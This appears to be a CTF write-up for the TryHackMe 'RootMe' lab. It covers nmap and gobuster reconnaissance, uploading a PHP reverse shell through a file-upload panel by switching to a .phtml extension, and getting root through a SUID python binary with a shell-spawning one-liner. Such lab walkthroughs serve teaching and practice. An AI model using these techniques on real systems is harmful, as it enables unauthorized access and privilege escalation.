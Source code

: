 ```yaml
---
layout: article
title: RootMe CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://res.cloudinary.com/practicaldev/image/fetch/s--J4tkVXTj--/c_imagga_scale,f_auto,fl_progressive,h_420,q_auto,w_1000/https://dev-to-uploads.s3.amazonaws.com/uploads/articles/kqqova632hnzjav20vx5.png
permalink: /writeups/rootme
tags:
- TryHackMe
- Write-Up
---
```


## Reconnaissance
First of all, we start with a little scan to discover services and technology about target.

TCP SYN SCAN --> [https://nmap.org/book/synscan.html](https://nmap.org/book/synscan.html)

`sudo nmap -sS <IP ADDRESS> -p-`

This may take few minutes because we are scanning all TCP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:44 CEST
Nmap scan report for 10.10.8.205
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 100.80 seconds
```

Ports 22 and 80 are open. We can navigate the website.

To find Apache version, launch the following command:
`sudo nmap -sV <IP ADDRESS> -p 80`

Web server folders enumeration using `gobuster`.

`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/big.txt`

We have found */panel* folder.

## Getting a shell
We can upload files by the panel section of the website.
Upload this php reverse shell: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
The website doesn't accept php file extension, so we have to bypass the file name. 
We can assign a *phtml* extension to the reverse shell file. 
- ***.phtml*** extension are **most commonly associated with PHP Web pages**. The PHTML files contain PHP code that is parsed by a PHP engine. This allows the Web server to generate dynamic HTML that is displayed in a Web browser.
Moreover we have to change ip address and port in the file.
We just have to upload the reverse shell, use *netcat* to open a listening connection on our machine and execute the file via web browser.
Et voilà, we have a shell.

## Privilege escalation
First of all we search for files with SUID permission.

`find / -user root -perm /4000 2>/dev/null`

Now we have list of all files that can be executed like root from other users.
We find */usr/bin/python*...
Maybe we can execute python to obtain a root shell.

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
-  [https://gtfobins.github.io/gtfobins/python/#suid](https://gtfobins.github.io/gtfobins/python/#suid)

